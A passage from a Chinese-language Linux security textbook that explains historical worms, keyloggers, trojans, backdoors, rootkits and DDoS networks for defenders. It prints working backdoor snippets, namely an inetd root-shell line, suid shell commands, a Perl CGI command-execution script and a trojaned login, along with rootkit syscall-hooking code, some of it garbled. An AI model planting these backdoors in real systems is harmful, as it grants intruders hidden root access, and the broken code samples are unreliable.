1988 年 11 月，世界上第一个主要的计算机蠕虫诞生了。该蠕虫由康奈尔大学的学生罗伯特·莫里斯（Robert Morris）编写，利用了 `Sendmail` 和 `Finger` 中的已知漏洞，并在互联网上快速传播（1988 年的互联网主要由大学和政府/军事机构组成）。

蠕虫的第一条攻击线是连接到远程机器的服务器。通过调用调试模式，可以将命令直接传递到 shell 中——在这种情况下，这是一个连接回攻击机器的小型 C 程序——并传输其余文件。如果 `Sendmail` 漏洞利用失败，蠕虫会使用 `finger` 守护进程中的缓冲区溢出来达到相同的结果。当蠕虫现在运行在受害者主机上后，循环就会重复，但多了一个变数：`RSH`（远程外壳）和 `REXEC`（远程执行）（它们使用基于主机的身份验证）是传播蠕虫的第三种方式。通过对 `/etc/passwd` 进行破解（使用 `/usr/dict` 作为列表），蠕虫可以冒充其他用户的身份并登录其他机器。

那时的互联网是一个更加信任的地方，而该蠕虫（在省理工学院发布以试图掩盖其来源）的传播速度让每个莫里斯都感到震惊。代码中的错误也意味着蠕虫可以多次感染同一台机器；事实上，大部分损害是由于几台服务器在尝试执行多个蠕虫实例时陷入瘫痪造成的。

历史对天真的罗伯特·莫里斯是仁慈的。虽然今天的病毒编写者通常被认为是最底层的人中的底端，但有多少黑客会对莫里斯感到某种同情，也许在他身上看到了自己的一丝恶作剧和好奇心。无疑，莫里斯的意图并不是恶意的——该蠕虫不包含负载；它唯一的目的就是复制和传播。关于莫里斯蠕虫的完整分析——对这一臭名的蠕虫提供了迷人的见解——可以在 `http://www.worm.net` 获取。

### Slapper 蠕虫

最近，Linux 再次成为一种特别危险蠕虫的目标。Slapper 蠕虫利用了 `OpenSSL` 库（于许多 Web 服务器上）的缓冲区溢出漏洞，于 2002 年 9 月首次在野出现，目标是启用了 `SSL`（`HTTPS` 协议使用）Apache 服务器的 Linux 系统。

## 理解问题

蠕虫开始向目标机器发送 HTTP GET 请求以识别运行的 Apache 版本；如果存在漏洞，它会连接到安全 HTTP 端口（`443/TCP`），并发送利用代码。如果成功，Apache 运行的账户（通常是如 `www` 或 `nobody` 等无权限用户）就会被破解，然后蠕虫就可以自动复制其源代码并进行编译。新编译的蠕虫随后执行，并重启其扫描互联网以寻找更多待感染主机的进程。除了复制到新主机外，Slapper 蠕虫还复制了一个 DoS 工具，该工具在 UDP（用户数据报协议）端口上监听，并可以被破解者远程控制。这为蠕虫作者提供了一支巨大的机器军队，可以参与大规模的分布式 DoS 攻击。

到为止，已经发现了三种 Slapper 蠕虫变体，分别命名为 `.A`、`.B` 和 `.C`。这三者使用相同的基本技术进行传播，但行为略有不同。例如，变体 `.B` 会将每台受感染机器详情通过电子邮件发送到一个免费的 Web 电子邮件帐户（早已关闭），而 `.C` 还会将端口绑定到 `1052/TCP`，允许破解者在受感染的系统上运行命令。这三者也都使用 UDP 端口作为 DoS 守护进程。

### Adore 蠕虫

不要与 Adore root 混淆（两者完全没有关系），Adore 蠕虫于 2001 年首次出现，可能是在 4 月 1 日。蠕虫扫描随机 IP 段，寻找某些版本 LPR（打印机）、`rpc.statd`、WU 和 BIND 的已知漏洞。在发现运行这些服务的系统后，Adore 尝试破解系统并将其复制到主机，隐藏在 `/usr/lib` 并替换 `/bin/ps`。它随后会将以下文件发送到匿名帐户：

- `/etc/passwd`
- `ifconfig`
- `/bash_history`

最后，蠕虫启动了一个后门 shell，攻击者可以通过网络访问它。与 Slapper 蠕虫一样，Adore 也出现了变体；最著名的是 Adore v0.2。这种虫对 `/etc/passwd` 的修改相当粗俗，因此很容易发现。

# Linux 网络安全

与 Adore 密切相关的是 Ramen 蠕虫，它利用 LPR、WU、BIND 和 `rpc.statd` 中的相同漏洞进行传播。在感染主机上运行时，Ramen 在端口 `2737/TCP` 上运行一个小型 HTTP 服务器以提供副本。它随后修复了获取访问权限的漏洞；安装了 `/bin/ps` 和 `/bin/netstat` 的木马版本；并发送 `/etc/shadow`。

正如这些示例所示，Linux 蠕虫是真实的威胁而非可能。与许多依赖社交工程的 Windows 病毒（欺骗用户打开邮件附件或访问带有脚本的网站）不同，我们使用的蠕虫利用远程漏洞，因此传播速度非常快。其他漏洞也可以作为自我传播自动化蠕虫的基础。在这种情况下，传统的反病毒建议（不要运行不可信的二进制文件或打开附件）作用有限。最佳防御是数据过滤、删除不需要的服务以及保持补丁和安全修复更新。我们将在第 7 章“桌面安全”中回到对抗病毒和蠕虫的话题。在此期间，你可能对 Alex Bold 对 Bliss 病毒的分析感兴趣 `[Bold00]`，该 URL 列在本章节末尾。

## 即使是世界上最好的加密，如果攻击者可以静地记录在键盘上输入的击键，也是徒用的。在 Linux 中，日志记录器既可以在用户态运行（作为普通程序），也可以在内核态运行（即内核模块）。以下是 `lkl1` 的运行情况：

```
# lkl1 -m pete@localhost -k keymaps/us_km own
```

```
n开始记录端口 Ox60。键位图为 keymaps/us_km。日志文件为 (null)。
```

# 理解问题

每个字符都用大括号括起来，如果你仔细看，你会看到下一节第一段的部分内容。这个键盘记录器还可以将捕获的电子邮件数据发送给攻击者，从而使他免于重新访问目标机器的烦恼。

## 硬件键盘记录器

除了软件记录器外，还有许多设备可以在硬件层面记录按键输入。这些微型电子设备位于键盘的 PS/2 或串行插头与 PC 塔机上的插座之间，将按键记录记录在非易失性内存中。重放被捕获的数据只需输入正确的密码即可。记录器检测到这一点并将其内容转储到屏幕上。

### 未经授权的 X Windows 访问

X 系统使用客户端/服务器模型，其底层协议——X 协议——独立于操作系统和主机。这使得 X 具有极大的灵活性；例如，你可以登录到地球另一端的机器，启动像 Word 这样的 GUI（图形用户界面）应用程序，并将其显示在你的本地 X 会话中；然而，这也引入了安全问题。任何具有远程访问你 X 服务器权限都可以执行以下操作：

- 创建并销毁窗口，允许攻击者在主机上启动和停止应用程序。
- 捕获或发送按键（例如到 `xterm`）。这允许攻击者捕获你的 root 密码（例如当你执行 `su` 或 `sudo` 时），或在主机上执行任意命令。
- 对可能的敏感信息进行截屏。

例如，执行屏幕转储只需将显示名称传递给 X 应用程序 `xwd` 即可：

```
$ xwd -display 192.168.10.1:0 -out image.dump
```

# Linux 网络安全

生成的图像转储随后可以使用 `xwud` 显示。

关于 X Windows 客户端/服务器模型——以及管理员需要采取哪些措施来防止此类未经授权的访问——我们将在 7 节讨论桌面安全时进行详细阐述。

## 2.2 木马与后门

虽然病毒和蠕虫关注的是尽可能传播到尽可能多的主机并在过程中造成故意的破坏，但木马的目的是为攻击者提供一种远程进入系统的手段，并且许多木马并不是自我复制的。木马也很少造成任何破坏，因为它们的意图是不被发现，它们可能存在于二进制文件或源代码中——后者更有可能。

正如你可能已经意识到的，木马的名字源自荷马《伊利亚特史》中著名的特洛伊木马。在计算领域，该术语用于描述任何看似无害但具有隐藏功能或有效负载的代码。木马的一些典型行为包括：

- 邮寄 `/etc/shadow`
- 向 `/etc/inetd.conf` 或 `/etc/xinetd/` 添加一个 `rootshell`
- 在 `/etc/passwd` 中添加一个具有 root 权限的用户。
- 隐藏木马使用的文件、进程和网络套接。

相比之下，后门通常是由已获得（root）访问权限并想保留该权限的攻击者安装的。值得注意的是，这两者的功能是重叠的；正如之前的示例所示，木马通常会自己安装一个后门。事实上，木马可以简单地被认为是被系统管理员误骗执行的后门。

### Sendmail 木马


2002年秋季的大安全事件是`ftp.sendmail.org`被破解，`Sendmail 8.12.6`的`tar`包中植入了一个木马。在`8月6日`到`9月28日`之间，估计有`200`名下载源代码的用户受到影响（这个数字会高得多，但报告说`tftpd`被重新配置，导致只有`1/10`的用户收到了带木马的版本）。编译源代码导致后门被编译并启动。

然后打开到固定远程主机`aclue.com`的`TCP`连接，并等待指令。

`aclue.com`机器是一台位于康涅狄格州某私人住宅地下室的`FreeBSD`机器；其所有者`Eli Klein`并没有意识到他的机器已被入侵，并正作为数百台受感染机器的主控制器。使用`aclue.com`机器安装的后门，攻击者可以登录并控制任何受感染的机器。这个故事中最奇怪的事实之一是，来自`Sendmail`联盟（发布了第一个木马警告）的人并没有通知`Klein`。相反，这项任务落到了安全分析师`Parker`手中，他下载了一个被植入木马的`Sendmail`包。`Klein`表示怀疑，但他加强了防火墙以防万一。这还不够。在追踪文件系统时，入侵者试图通过删除他的足迹。幸运的是，`Klein`找回了大部分被删除的数据。

### 修改 /etc/passwd

最常见的后门可能是向`/etc/passwd`添加额外的`root`账户，或者存在一个——或任何未知账户——应该立即拉响警报。除了用户账户外，`/etc/passwd`还包含许多系统账户。狡猾的攻击者会伪装他的后门账户为其中之一。考虑以下内容：

```
root:x:0:0:/bin/bash
bin:x:1:bin:/sbin/nologin
daemon:x:2:daemon:/sbin/nologin
admin:x:3:4:admin:/var/adm/nologin
lp:x:4:7:lp:/var/spool/lp/nologin
sync:x:5:0:sync:/bin/sync
shutdown:x:6:0:shutdown:/sbin/shutdown
halt:x:7:0:halt:/sbin/halt
mail:x:8:12:mail:/var/spool/mail/nologin
printer:x:9:0:printer:/bin/bash
uucp:x:10:14:uucp:/var/spool/uucp/nologin
operator:x:11:0:operator:/root/nologin
games:x:12:10:games:/usr/games/nologin
gopher:x:13:30:gopher:/var/gopher/nologin
ftp:x:14:50:ftp:/var/ftp/nologin
```

你注意到列表中的错误账户了吗？`printer`账户具有`root`权限（第三字段为`0`），并且其shell是`/bin/bash`。大多数系统账户使用`/sbin/nologin`或`/sbin/false`来防止用户登录。如果怀疑，查看`/etc/shadow`应该澄清问题：

```
root:0:0:99999:7::::
bin:1:1:bin:/sbin/nologin:::
daemon:2:2:daemon:/sbin/nologin:::
admin:3:4:admin:/var/adm/nologin::::
lp:4:7:lp:/var/spool/lp/nologin::::
sync:5:0:sync:/bin/sync::::
shutdown:6:0:shutdown:/sbin/shutdown::::
halt:7:0:halt:/sbin/halt::::
mail:8:12:mail:/var/spool/mail/nologin::::
printer:9:0:printer:/bin/bash::::
uucp:10:14:uucp:/var/spool/uucp/nologin::::
operator:11:0:operator:/root/nologin::::
games:12:10:games:/usr/games/nologin::::
gopher:13:30:gopher:/var/gopher/nologin::::
ftp:14:50:ftp:/var/ftp/nologin::::
```

该文件的第二个字段是影子密码；`*`表示账户已禁用，而`:`表示空密码。这里非常不对。可能是入侵者修改了这些文件中的条目以允许特权访问。

### 修改 /etc/inetd.conf

另一个流行的后门是`/etc/inetd.conf`中的`rootshell`。`Inetd`是`Internet`的“超级服务器”，负责监督`Linux`中的许多网络服务。`/etc/inetd.conf`的格式如下：

```
<service name> <socket type> <protocol (tcp or udp)> <flags> \
  <user to run as> <path to server> <arguments>
```

例如：

```
ftp stream nowait root /usr/sbin/tcpd proftpd
telnet stream nowait root /usr/sbin/tcpd intelnetd
pop3 stream nowait root /usr/sbin/tcpd /usr/sbin/pop3d
```

要创建一个后门，破解者只需插入如下的一行：

```
60000 stream nowait root /bin/sh sh -i
```

现在，任何连接到`TCP`端口`60000`的都会进入`rootshell`。记住`inetd.conf`条目中的第一个参数只是一个描述性名称，并与`/etc/services`进行映射。不要被欺骗：

```
nntp stream nowait root /bin/sh sh -i
```

这是一个监听在`119`端口（通常与`NNTP`关联的端口）上的`rootshell`，而不是合法的`NNTP`（网络新闻传输协议）服务器。可以使用不同的配置文件启动第二个`inetd`实例，例如：

```
### inetd /tmp/backdoor_inetd.conf
```

这种方法更容易被察觉，因为进程表中现在出现了两个`inetd`实例。

大多数`Linux`发行版现在都包含了更强大的`xinetd`作为`inetd`的替代品。使用`xinetd`，攻击者可以将其后门放在`/etc/xinetd.conf`或`/etc/xinetd.d/`目录中。

许多网络对入站流量采用激进过滤，但极少对离开网络的数据包应用同样严苛的标准。攻击者可以使用出站shell木马（例如`Sendmail`木马）轻松绕过这些限制。此外，这种方法还允许攻击者访问内部地址的机器，这些机器从互联网上是无法访问的。

### 创建 suid Shell

在这种方法中，攻击者制作了shell的副本并对其设置了`suid`属性：

```
cp /bin/bash /tmp/.cron_lock
chmod 4755 /tmp/.cron_lock
```

如果攻击者已经在系统中有一个合法账户，或者在`/etc/passwd`中添加了一个用户级账户（理由是用户账户不太可能比起被管理员注意到`root`账户，现在可以执行`/tmp/.cron_lock`来获取一个`root bash shell`。

`suid shell`不一定存放在`/tmp`中，事实上许多系统会定期清理`/tmp`；而且它位于独立的分区上，挂载时可能禁止在任何地方使用`suid`文件。`suid shell`同样可以命名为不起眼的名称，例如`/usr/sbin/kernel_probe`或`/usr/local/bin/X`。

### 木马系统二进制文件

维持访问的一种高级方法是将系统二进制文件替换为木马副本。例如，可以修改`login`以允许从特定地址进行无密码`root`登录，或者将`ps`替换为修改后的版本，为任何将“魔术单词”作为参数的用户授予`root`回shell（例如，`ps givemeroot`）。我们将在“`2.3 Rootkits`”章节中详细讨论这一主题。

### CGI 滥用

如果你运行一个公开访问的Web服务器，`CGI`（通用网关接口）脚本提供了另一个进入系统的点。这可以是攻击者创建自己的`CGI`脚本，或者更好的是修改现有脚本。一个后门`CGI`可以简单如下：

```perl
#!/usr/bin/perl
use CGI;
$q = new CGI;
print "Content-type:text/plain\n\n";
system($q->param("command"));
```


攻击者可以通过获取 URL 在机器上执行任何命令，例如：`http://example.com/cgi-bin/backdoor.pl?command=ls` 或 `http://127.0.0.1/cgi-bin/backdoor.pl?command=ps%20auxf`，如图 2.5 所示（这些示例假设脚本已命名 `backdoor.pl`）。

# 理解问题

| USER | PID | PPID | VSIZE | RSS | TTY | START TIME | COMMAND |
|---|---|---|---|---|---|---|---|
| root | 1 | 0 | 0 | 480 | 64 | S | Apr20 0:04 | init |
| root | 2 | 0 | 0 | 2000 | 0? | SW | Apr20 0:02 | [keventd] |
| root | 3 | 0 | 0 | 4000 | 0? | SW | Apr20 0:05 | [kaftirqd_CPU] |
| root | 4 | 0 | 0 | 5000 | 0? | SW | Apr20 0:05 | [kswapd] |
| root | 5 | 0 | 0 | 6000 | 0? | SW | Apr20 0:11 | [bdlfum] |
| root | 6 | 0 | 0 | 7000 | 0? | SW | Apr20 0:14 | [httpd] |
| root | 7 | 0 | 0 | 8000 | 0? | SW | Apr20 0:15 | [kjnamd] |
| root | 8 | 0 | 0 | 9000 | 0? | SW | Apr20 0:15 | [kthreadd] |
| root | 9 | 0 | 0 | 10000 | 0? | SW | Apr20 0:15 | [knubd] |
| rpc | 361 | 0 | 0 | 1512 | 408 | S | Apr20 0:00 | /usr/sbin/rpc_portmag |
| root | 361 | 0 | 0 | 1424 | 488 | S | Apr20 0:01 | /usr/sbin/syslogd |
| root | 364 | 0 | 0 | 1360 | 380 | S | Apr20 0:01 | /usr/sbin/syslogd -c 3 |
| nobody | 1354 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| nobody | 1355 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| nobody | 1356 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| nobody | 1357 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| nobody | 1358 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| root | 1360 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| root | 1361 | 0 | 0 | 11214 | 608 | S | Apr20 0:01 | inident -P/dev/null |
| lp | 317 | 0 | 0 | 3074 | 512 | S | Apr20 0:01 | /usr/sbin/sshd |
| root | 416 | 0 | 0 | 4116 | 520 | S | Apr20 0:00 | /usr/sbin/crond |
| daemon | 419 | 0 | 0 | 4128 | 512 | S | Apr20 0:00 | /usr/sbin/sshd -b 15 -1 |
| root | 422 | 0 | 0 | 3284 | 836 | ? | Apr20 0:00 | sendmail accepting connections |
| root | 425 | 0 | 0 | 3284 | 584 | S | Apr20 0:00 | sendmail: Queue |

# 38 Linux 网络安全

`processes.h` 定义了任何应该在 `netstat` 输出中隐藏的字符串：

```c
#define ADD6 "ssh"
#define ADD7 "login"
#define ADD8 "teln"
```

`pshid.h` 定义了要在 `ps` 输出中隐藏的字符串：

```c
#define PROCESS "/usr/lib/"
#define PROCESS2 "login"
#define PROCESS3 "ssh"
#define PROCESS4 "teln"
#define PROCESS5 "ftp"
#define PROCESS10 "cesso"
#define PROCESS11 "prot"
#define PROCESS12 "jool"
#define PROCESS18 "ld"
```

现在回到安装程序，用户会被提示设置密码，此时 `ulogin.c` 会被动态生成并编译。`/bin/login` 被移动到 `/usr/sbin/login/`，并替换为新编译的 `login` 可执行文件，其源代码看起来如下所示：

`ulogin.c`:

```c
#define PASSWORD "*password here"
#include <stdio.h>
#if defined(PASSWORD)
#if defined(_PATH_LOGIN)
#define _PATH_LOGIN "/usr/sbin/login"
#endif
main(int argc, char **argv, int *envp)
{
  int argc;
  char **argv, **envp;
  char *display = getenv("DISPLAY");
  if ( display == NULL ) {
    execve(_PATH_LOGIN, argv, envp);
    perror(_PATH_LOGIN);
    exit(1);
  }
  if (!strcmp(display,PASSWORD)) {
    system("/bin/bash");
  }
```

# 理解问题 39

```c
    exit(1);
  }
  execve(_PATH_LOGIN, argv, envp);
  exit(1);
```

攻击者现在可以在尝试登录受感染的机器之前，通过将环境变量 `DISPLAY` 设置为密码来获取一个 root-hell。

最后是安装 `sshd` 的时候。在提示攻击者输入端口和密码后，会创建 `/lib/security/.config/sshd/` 用来存放主机密钥和配置文件。

使用 `pg` 二进制文件来加密输入的密码，然后将其写入 `/etc/ld.hash`。木马化的 `ssh` 被复制到 `/usr/bin/sshd2`，在静默模式 (`-a`) 下启动，并在 `/etc/rc.d/rc.sysinit` 中添加条目以便在启动时启动守护进程。最后删除 rootkit 安装目录。

`sshd` 二进制文件值得再次查看。对它运行 `strings` 会发现一些奇怪的内容，特别是 `GET /-telecom89/gov.php`，这是一种感染 ELF 二进制文件的病毒。该病毒的分析可以在 `http://www.security-focus.com/archive/100/27640` 获取。

一旦安装，FLEA（与此处介绍的其他 rootkit 一样）为攻击者提供了一种以后重新进入系统的简单方法，同时向管理员隐藏其操作。对于不熟悉的管理员来说，这种 rootkit 很难发现，并可能允许入侵者在数月或几年内保持不被察觉并完全控制系统。

### Torn

另一组预编译二进制文件，torn rootkit 从其在野外出现的次数来看，似乎是一个非常流行的工具包。源码 tar 包包含以下文件：

*   `tk/`
*   `tk/netstat`
*   `tk/dev/`
*   `tk/dev/.1addr`
*   `tk/dev/.10gz`
*   `tk/dev/.1proc`
*   `tk/dev/.1file`
*   `tk/torns`

# 40 Linux 网络安全

```
tk/du
tk/ls
tk/t0rnsb
tk/ps
tk/t0rnp
tk/find
tk/ifconfig
tk/pg
tk/ssh.tgz
tk/top
tk/sz
tk/login
tk/t0rn
tk/in.fingerd
tk/tornkit-TODO
tk/pstree
tk/tornkit-README
```


带后门的 `ssh` 设置了默认密码/端口 `tornkit/47017`。使用 `qg` 二进制文件（这次是无病毒的）来加密密码，然后将其写入 `/etc/ttyhash`。剩余的 `ssh` 文件（配置文件和密钥）被复制到 `/usr/info/.t0rn/`。

`ps`, `ls`, `find`, `top`, `netstat` 和 `ifconfig` 被替换为木马版本，从 `/user/src/.put/` 读取它们的配置文件，并将三个二进制文件——`t0rn`, `t0rnp` 和 `t0rnsb` 复制到 `/usr/src/.put/`

`telnet`, `shell` 和 `finger` 均从 `/etc/inetd.conf` 中取消注释，并重启 `inetd`——这是攻击者重新进入的方法。通过 fingering `<password@cracked machine>`，可以在端口 `2555` 上启动一个 `root-hell`：

```bash
echo '2555 scream top now /bin/sh -i' >> /etc/sys;/sbin/inetd; killall -HUP inetd
```

`/login` 被移动到 `/sbin/xlogin`，并替换为允许任何用户使用存储在 `/etc/ttyhash` 中的密码登录的版本。这个 `rootkit` 有两个值得注意的原因：`netstat` 二进制文件在执行时会崩溃（由于 `strcpy` 溢出），`ps` 二进制文件大小为 `31336` 字节——差 `31337` 字节（“elite”的俚语）。如果你知道自己在什么，这两个事实很容易发现。

### Adore 2.4.x kernel

`Adore` 是一个 `LKM` `rootkit`。与我们过的其他 `rootkit` 不同，`Adore` 不需要替换像 `netstat` 这样的二进制文件——它拦截并修改系统调用。

```
drxr-xr-x root root 4096 Jan 3 2002 CVS
-rwxr-r-- root root 1275 Jan 3 2002 Changelog
-rwxr-r-- root root 1660 Jun 25 2000 LICENSE
-rwxr-r-- root root 1016 May 15 2001 Makefile.gen
-rwxr-r-- root root 3164 May 15 2001 README
-rwxr-r-- root root 52 Jun 1 2001 TODO
-rwxr-r-- root root 23665 Jan 3 2002 adore.c
-rwxr-r-- root root 2796 Dec 5 2001 adore.h
-rwxr-r-- root root 4212 Feb 26 2001 ava.c
-rwxr-r-- root root 1979 Dec 23 2000 cleaner.c
-rwx-xr-x root root 1881 Jan 3 2002 configure
-rwxr-r-- root root 1904 Sep 19 2000 dummy.c
-rwxr-r-- root root 3417 May 13 2001 libinvisible.c
-rwxr-r-- root root 2527 Dec 21 2000 libinvisible.h
-rwxr-r-- root root 2191 May 13 2001 rename.c
-rwxr-xr-x root root 193 Mar 21 2001 startadore
```

正在安装

```bash
# ./configure
```

Starting `adore` configuration ... Checking for `ELITE_UID` ... found `30` Checking for `ELITE_CMD` ... using `121`

`Adore` 的 `Makefile` 定义了一个 `ELITE_UID`，一个六位数数字（例如 `15621`），作为密码。除非用户显式设置，否则将使用随机数。

```
Checking SMP ... NO Checking MODVERSIONS ... NO Checking for gcc ... found Checking for insmod ... found /sbin/insmod - OK
```

已加载模块：

# 42 Linux 网络安全

| Module | Size | Note |
| :--- | :--- | :--- |
| `ipt_MASQUERADE` | `1272` | `2` (`autoclean`) |
| `iptables_nat` | `14904` | `1` (`autoclean`) [`MASQUERADE`] |
| `ip_conntrack` | `18016` | `1` (`autoclean`) [`MASQUERADE` `iptable_nat`] |
| `iptable_filter` | `1644` | `1` (`autoclean`) |
| `ip_tables` | `11768` | `5` [`MASQUERADE` `iptable_nat`] |
| `nfsd` | `67344` | `8` |
| `parport_pc` | `14724` | `0` |
| `parport` | `23264` | `0` [`parport_pc`] |
| `pcmcia_core` | `38112` | `0` |
| `ide-scsi` | `8048` | `0` |
| `3c59y` | `26736` | `2` |

自版本 `0.33` 起，`Adore` 及其服务需要“验证”。现在会提示你输入密码，密码将被编译进“`adore`”和“`ava`”，因此你不需要进行进一步的操作。此过程将使 `Adore` 免受扫描器的扫描。尝试选择与普通 `mkdir(2)` 调用冲突的唯一名称。

`Password` (`echoed`):`kermit`

正在隐藏 `/home/pete/rk/adore` (`cwd`) ...

Creating `Makefile`...

> *** Edit `adore.h` for the hidden services and redirected fileaccess

`cp`: cannot stat 'Makefile': No such file or directory

```bash
# make
rm -f adore.o
cc -c /usr/src/Linux/include -O2 -Wall -DELITE_CMD=15621 \
-DELITE_UID=30 -DCURRENT_ADORE=42 -DADORE_KEY="kermit" \
adore.c -o adore.o
```

在 `adore.c:36` 包含的文件：

`usr/src/Linux/include/Linux/malloc.h:4:2: warning: #warning`

`Linux/malloc.h` is deprecated, use `Linux/slab.h` instead.

`cc -O2 -Wall -DELITE_CMD=15621 -DELITE_UID=30 \`

`-DCURRENT_ADORE=42 -DADORE_KEY="kermit" ava.c`

# 理解问题 43

```c
libinvisible.c -o ava
```

我们现在有了 `ava` 二进制文件和两个对象文件：`adore.o` 和 `cleaner.o`。

`startadore` 仅仅是将模块加载到内核的 `shell` 脚本：

```bash
#!/bin/sh

# 使用此脚本引导 adore!
# 它会让 adore 隐形。你也可以在
# 不使用 $0 的情况下 insmod adore，但它是可见的。
```

```
insmod adore.o
mod cleaner.o
rmmod cleaner
```

`cleaner.c` 只从模块列表中移除最后一个加载的模块。

`ava` 作为内核模块的前端：

```
# ./ava
Usage: ./ava {h,u,r,R,i,v,U} [file, PID or dummy (for U)]

hide file
unhide file
r execute as root
R remove PID forever
U uninstall
i make PID invisible
v make visible
```

但什么阻止管理员编译自己的 `ava` 副本并用它卸载 `Adore` 呢？这就是 `ADORE_KEY` 的作用所在。

`libinvisible.c`（`ava` 使用）定义了这个用于验证的函数：

```c
adore_t *adore_init()
{
  adore_t *ret = calloc(1, sizeof(adore_t));
  if (mkdir(ADORE_KEY, 0) != 1) {
    fprintf(stderr, "Couldn't authorize myself.")
    " Trying anyway...\n";
    remove(ADORE_KEY);
  }
  ret->version = close(ELITE_CMD+2);
  return ret;
}
```

## 理解问题


`sys_call_table[__NR_x] = n_x;`

`REPLACE(mkdir);`

现在，任何对 `mkdir` 的调用都会导致 `n_mkdir` 函数执行：

```c
long n_mkdir(const char *path, int mode)
{
    char key[64];
    long r, l;

    if ((1 = strlen(path, PATH_MAX) < sizeof(key))) {
        memset(key, 0, sizeof(key));
        copy_from_user(key, path, 1);

        if (strcmp(key, ADORE_KEY) == 0) {
            current->flags |= PF_AUTH;
            return 1;
        }
    }
    r = o_mkdir(path, mode);
    return r;
}
```

如果传递给 `mkdir` 的目录名称与模块构建的 adore key 匹配，则返回 1。否则，调用真实的 `mkdir`（现在重命名为 `o_mkdir`），并返回其返回值。

那么，`mkdir` 调用有什么特别之处吗？并没有。任何系统调用都可以为了身份验证机制被破坏，但 `mkdir` 的优势在于它没有被 Adore 使用。

Adore 以类似的方式劫持其他系统调用，在调用周围创建一个封装器来对输出进行清理。

在这里，新的 `ptrace` 函数如果 pid 被 Adore 标记为隐藏，则返回 `-ESRCH`（“无此类进程”）错误。否则，调用原始的 `ptrace` 函数：

```c
int n_ptrace(long request, long pid, long addr, long data)
{
    if (is_invisible(pid))
        return -ESRCH;
    return o_ptrace(request, pid, addr, data);
}
```

### Adore-ng (2.6.x 内核)

拦截和清理系统调用的过程在 2.4.x 内核系列中运行良好，但 2.6.x 内核的发布了这一切。系统调用表不再导出，因此 Adore 需要另一种操作方法。这就是 Adore-ng，它运行在 VFS 层上。虚拟文件系统（VFS）是一个抽象层，在内核支持的各种文件系统之间提供统一的接口。Adore-ng 用它自己的处理器替换了 `/proc` 和 `/` 目录列表的现有处理器。因为用户态程序（如 `ps`）从 `/proc` 读取它们的信息，这提供了一种隐藏文件和进程的有效方法。

防御 LKM rootkit 特别是困难的。正如你即将在本书中看到的，在内核中禁用模块支持是最有效（尽管相当不便）的解决方案；在第 11 章“保持安全”中，我们还将查看过去用于检测 rootkit 存在的方法。

# 第二部分：针对网络的攻击

在开始本节之前，有必要对基于主机的身份验证进行简要说明。过去，许多服务（例如伯克利 R* 套件：login、rsh 等）完全依赖客户端的用户名和 IP 地址作为身份验证手段；如果你的地址出现在另一台机器的 `.hosts` 文件中，你可以在不提供用户名和密码的情况下登录到该机器。从安全的角度来看，这并不好。今天，SSH（安全外壳）、SCP（安全复制）和 SFTP（安全文件传输协议）为伯克利的 R* 套件提供了更安全、加密的替代方案，但某些基于主机的身份验证协议仍在使用中——最常见的是 NFS（网络文件系统）。你可能会认为这是一把双刃剑，因为如果没有传输密码，就没有攻击者嗅听连接并随后使用该密码的威胁。尽管如此，从基于主机的身份验证转向加密的、密码保护的服务，被所有人认为是一件好事。

## 2.4 拒绝服务 (DOS)

从广义上说，拒绝服务攻击（DoS）可以被认为是任何试图通过过载带宽、内存、磁盘空间或 CPU 时间等有限资源，剥夺合法用户使用网络提供的服务的攻击。最流行的 Dos 攻击集中在剥夺带宽上，特别是在分布式攻击时（见后文），近年来这成为了巨大的问题，针对 Yahoo! 和 eBay 等公司发生了许多知名攻击。

带宽限制型 DoS 攻击最简单的形式是向向机器发送超过其资源处理能力的数据。如果目标的所有可用带宽和资源都能被用尽，合法流量将无法处理。这种攻击的一种原始形式是 ping 洪泛（ping flood），目标受到 ICMP（互联网控制消息协议）生态请求的轰炸，堵塞双方向的带宽，并在目标尝试响应 ping 时对系统的 TCP/IP 栈造成压力。许多管理员存在一个误区，认为在防火墙上拦截 ping 请求将解决这个问题。虽然这确实停止了离开网络的 ICMP 流，但 ISP 和边界防火墙/路由器之间的下游带宽仍然会受到影响，因此这种解决方案仅部分有效。顺便提一下，如果下游（从受害者角度看）带宽完全饱和，这也会有效地停止所有上行流量。

# 理解问题

这为许多后来的 DDoS 攻击程序奠定了基础。



图 2.6 运行中的乒乓攻击。

Trinooo [Dittrich99] 网络由两部分组成——主节点（masters）和守护进程（daemons）——它们都运行在之前通过其他手段入侵的机器上。每个主节点控制许多守护进程，而攻击者控制每个主节点，如图 2.7 所示。



图 2.7 Trinooo 泛洪网络的架构。

# 50 Linux 网络安全

为了发起攻击，破解者会在 27665 端口对每个主节点打开一个 TCP 连接（即通过 telnet 登录），并输入密码。一旦连接，他就可以执行命令来完成任务，如管理守护进程和启动 Do 攻击。主节点会将这些命令转发给每个守护进程。

另一个大玩家 TFN（Tribal Flood Network）使用了类似的主节点-守护进程架构，但它更先进，提供了执行 ICMP、SYN 和 UDP 泛洪的能力，并提供按需的无情后门。TFN 主节点通过 ICMP 回显包包与守护进程通信，执行命令被携带在数据的数据段中。这相比于 TCP 或 UDP 通信具有优势，因为许多网络管理员并不会去检查 ICMP 包的载荷。

